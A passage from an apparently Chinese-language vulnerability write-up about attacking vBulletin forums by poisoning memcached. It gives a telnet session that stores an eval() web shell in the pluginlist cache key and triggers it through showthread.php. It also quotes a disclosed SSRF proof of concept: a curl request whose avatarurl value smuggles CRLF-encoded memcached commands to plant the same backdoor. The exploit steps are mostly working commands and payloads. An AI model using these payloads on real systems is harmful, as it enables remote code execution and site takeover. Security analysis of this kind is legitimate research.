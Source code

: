 ```
$ telnet 172.16.80.156 11211
Trying 172.16.80.156...
Connected to 172.16.80.156.
Escape character is '^]'.
set pluginlist 0 120 59
a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";}
STORED
quit

```

![enter image description here](http://drops.javaweb.org/uploads/images/372ec7011822c0d5afbae94b6632b65a4c14ac8a.jpg)

命令修改了`global_start`的代码，所以包含了`./global.php`的页面都将含有我们的恶意代码。

这时访问`http://172.16.80.156/showthread.php?eval=phpinfo();`发现我们的代码已经执行。

![enter image description here](http://drops.javaweb.org/uploads/images/3066f5e31212fdb4083164fada04b82feacce442.jpg)

但是在大多数情况下，`Memcached`是不允许外网访问，这时就需要用到下面的`SSRF`。

### SSRF（Server-side Request Forgery，服务器端请求伪造）

SSRF(`Server-Side Request Forgery`:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

via:http://wiki.wooyun.org/web:ssrf

(注：测试前先删除上一步的`pluginlist`,`delete pluginlist`)`vBulletin`的远程上传功能在`vB_Upload_*`类和`vB_vURL`类中都有使用到，我们以`vB_Upload_Userpic`为例分析。 在文件`./includes/class_upload.php`中类`vB_Upload_Userpic`->类函数`process_upload()`中调用了类函数`accept_upload()`，之后`accept_upload()`调用了`fetch_remote_filesize()`，再来调用了`vB_vURL`类，最后到`vB_vURL_cURL`类中的`exec()`函数，整个过程中传入的`avatarurl`变量都未作任何过滤。

报告文档中的POC：[http://seclists.org/fulldisclosure/2015/Aug/58](http://seclists.org/fulldisclosure/2015/Aug/58)

```
$ curl 'http://sandbox.example.com/vb42/profile.php?do=updateprofilepic' -H 'Cookie: bb_userid=2; 
bb_password=926944640049f505370a38250f22ae57' --data 
'do=updateprofilepic&securitytoken=1384776835-db8ce45ef28d8e2fcc1796b012f0c9ca1cf49e38&avatarurl=http://localhost:11211/%0D%0Aset%20pluginlist%200%200%2096%0D%0Aa%3A1%3A%7Bs%3A12%3A%22global_start%22%3Bs%3A62%3A%22if%28isset%28%24_REQUEST%5B%27eval%27%5D%29%29%7Beval%28%24_REQUEST%5B%27eval%27%5D%29%3Bdie%28%29%3B%7D%0D%0A%22%3B%7D%0D%0Aquit%0D%0A.png'

```

按报告来理解的话，`Memcached`将执行：

```
HEAD /
set pluginlist 0 0 96
a:1:{s:12:"global_start";s:62:"if(isset($_REQUEST['eval'])){eval($_REQUEST['eval']);die();}
";}
quit
.png HTTP/1.0
Host: localhost
User-Agent: vBulletin via PHP
Connection: close

```
